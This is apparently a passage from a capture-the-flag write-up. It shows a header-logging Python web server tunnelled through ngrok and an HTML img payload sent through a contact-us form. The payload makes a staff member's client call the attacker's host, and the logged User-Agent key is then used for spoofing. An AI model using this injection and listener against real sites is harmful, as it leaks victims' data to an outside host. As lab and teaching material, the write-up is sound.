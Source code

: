 ## Spoofing the user agent
The staff team most likely will use their neurotap to read their messages / emails. Let's try to check for XSS on the contact-us form.
Let's set up a simple webserver and tunnel with ngrok.
```python
#!/usr/bin/env python3

import http.server as SimpleHTTPServer
import socketserver as SocketServer
import logging

PORT = 3333

class GetHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_GET(self):
        logging.error(self.headers)
        SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)


Handler = GetHandler
httpd = SocketServer.TCPServer(("", PORT), Handler)

print("serving on port", PORT)
httpd.serve_forever()
```

We'll be sending the following payload:
```html
<body><img src='https://1c4c-77-32-33-199.ngrok-free.app/image.jpg'/></body>
```
We won't be able to see the console.log but you never know.
We know that the cat lady is working as Sales. In a real scenario we would lure her into clicking on something cat related. Here, we can omit that and just send the payload as it is.

This is what we get:
```
ERROR:root:Host: 1c4c-77-32-33-199.ngrok-free.app
User-Agent: NEUROTAP-v0.2-BEG!---32FM19790306873AEB!---
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: cross-site
X-Forwarded-For: 35.233.50.225
X-Forwarded-Host: 1c4c-77-32-33-199.ngrok-free.app
X-Forwarded-Proto: https


127.0.0.1 - - [19/Nov/2023 15:27:45] code 404, message File not found
127.0.0.1 - - [19/Nov/2023 15:27:45] "GET /image.jpg HTTP/1.1" 404 -
```

## Spoofing User Agent
That user-agent looks like our key. Let's use it. On chrome i'd use the Network Conditions tab. On firefox i just use [this extension.](https://add0n.com/useragent-switcher.html).
